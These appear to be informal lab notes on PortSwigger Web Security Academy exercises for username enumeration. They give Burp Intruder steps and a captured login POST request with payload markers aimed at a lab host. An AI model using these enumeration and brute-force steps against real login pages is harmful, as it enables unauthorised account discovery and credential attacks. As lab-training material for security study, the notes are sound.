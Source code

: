 ## Username enumeration via subtly different responses

1.First try to loging show Invalid username or password 

2. Loging page to worng username and password and burp request and sand intruder and add username 
3. set payloads
4. intruder sub-tab Option and scroll GREP-EXTRACT click add button and scroll and select Invalid username or password. and ok
5. and run the attack


 ## Username enumeration via account lock
 
  1. First try to loging show Invalid username or password
  2. Loging page to worng username and password and burp request and sand intruder and add username password add $$ 
  
  ## EX 
  
    POST /login HTTP/1.1
    Host: ac9b1f711ed8b1e1c0220cdd005b006a.web-security-academy.net
    Cookie: session=gyv8YLrvVqRcgxsc6JaG8vIgnRezoHew
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 27
    Origin: https://ac9b1f711ed8b1e1c0220cdd005b006a.web-security-academy.net
    Referer: https://ac9b1f711ed8b1e1c0220cdd005b006a.web-security-academy.net/login  
    Upgrade-Insecure-Requests: 1
    Sec-Fetch-Dest: document
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: same-origin
    Sec-Fetch-User: ?1
    Te: trailers
    Connection: close

    username=§asif§&password=khan§§
    
